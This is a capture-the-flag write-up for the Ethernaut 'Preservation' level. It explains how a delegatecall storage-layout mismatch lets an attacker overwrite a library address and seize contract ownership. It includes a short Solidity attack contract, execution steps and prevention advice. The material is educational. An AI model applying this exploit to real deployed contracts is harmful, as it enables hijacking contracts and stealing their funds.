

# Ethernaut Challenge 16: Preservation

## Challenge Information

- **Submit level txnHash:** `0x8e436e354df823ee30b62eae705c3cc808ad3b148a2a5633cd5b3cd069d693e2`
- **Instance address:** `0x528fa41E0BCdDd7A563791C035a2BDfaE9d6CA9F`
- **Level address:** `0x972A4Eb8fb1FfF6e9EF62Cfe5FF4A00519365Ee2`

## Challenge Description

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

**Goal:** Claim ownership of the instance you are given.

## Vulnerability Analysis

The vulnerability lies in the improper use of `delegatecall` in the `Preservation` contract. Here's what makes it exploitable:

### Storage Layout Mismatch

The `Preservation` contract has this storage layout:

```solidity
address public timeZone1Library;    // slot 0
address public timeZone2Library;    // slot 1
address public owner;               // slot 2
uint256 storedTime;                  // slot 3
```

However, the `LibraryContract` has a different storage layout:

```solidity
uint256 storedTime;                 // slot 0
```

### The Problem with delegatecall

When `setFirstTime()` calls `timeZone1Library.delegatecall()`, it executes the library's `setTime()` function in the context of the `Preservation` contract. This means:

1. The library's `storedTime` (slot 0) maps to `timeZone1Library` (slot 0) in the Preservation contract
2. Any value passed to `setTime()` will overwrite the `timeZone1Library` address
3. This allows an attacker to replace the library with their own malicious contract

## Solution Strategy

The attack involves two steps:

1. **Replace the library**: Use `setFirstTime()` to replace `timeZone1Library` with our malicious contract address
2. **Take ownership**: Call `setFirstTime()` again, which now delegates to our contract that sets `owner = tx.origin`

## Attack Contract

```solidity
contract Attack {
    uint256 storedTime;    // slot 0 - maps to timeZone1Library
    uint256 storedTime2;   // slot 1 - maps to timeZone2Library
    address public owner;  // slot 2 - maps to owner

    function setTime(uint256 _time) public {
        storedTime = _time;     // This will overwrite timeZone1Library
        storedTime2 = _time;    // This will overwrite timeZone2Library
        owner = tx.origin;      // This will set the owner to the attacker
    }
}
```

## Execution Steps

1. Deploy the `Attack` contract
2. Convert the attack contract address to `uint256`
3. Call `setFirstTime(attackContractAddress)` to replace the library
4. Call `setFirstTime(0)` to trigger the attack and become owner

## Key Learning Points

- **delegatecall preserves context**: The called function executes in the caller's storage context
- **Storage layout matters**: Mismatched storage layouts between contracts can lead to unexpected behavior
- **Always validate library addresses**: Never allow user input to directly set library addresses
- **Use proper access controls**: Library replacement should be restricted to authorized users

## Prevention

To prevent this vulnerability:

1. Use `call` instead of `delegatecall` when possible
2. Implement proper access controls for library management
3. Ensure storage layouts match between contracts using delegatecall
4. Validate and whitelist library addresses
5. Consider using proxy patterns with proper initialization


